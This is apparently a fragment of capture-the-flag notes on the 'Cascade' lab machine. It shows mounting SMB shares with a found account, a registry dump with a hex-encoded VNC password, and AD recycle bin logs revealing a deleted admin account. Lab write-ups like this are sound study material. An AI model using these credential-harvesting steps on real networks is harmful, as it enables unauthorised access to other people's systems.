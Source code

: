 
# Tried to download the files from smb but not worked:

```bash
smb: \IT\Email Archives\> mget *
Error opening local file Meeting_Notes_June_2018.html

```
# In order to get the files tried to mount the smb shares:

```bash
└─$ sudo mkdir /mnt/cascade; mount -o user=r.thompson -t cifs //10.10.10.182/Data /mnt/cascade
```
OR 

# first make the directory in /mnt and tgen try the cmd, Successfully go the shares:

```bash
└─# cd /mnt/cascade 
                                       
┌──(root㉿kali)-[/mnt/cascade]
└─# ls
Contractors  Finance  IT  Production  Temps
```

# Got email while opening the Meeting notes:

![image](https://github.com/thesinghsec/HackingNotes101/assets/126919241/451ce35f-142b-47f5-ad16-0d6db995049b)

# Upon opening the VNC file in S.smith folder got vnc password:

```bash
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
```

# on opening file in AD recyclebin got the user:

```bash
8/12/2018 12:22	[MAIN_THREAD]	Validating settings...
8/12/2018 12:22	[MAIN_THREAD]	Running as user CASCADE\ArkSvc
8/12/2018 12:22	[MAIN_THREAD]	Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22	[MAIN_THREAD]	Successfully moved object. New location
```
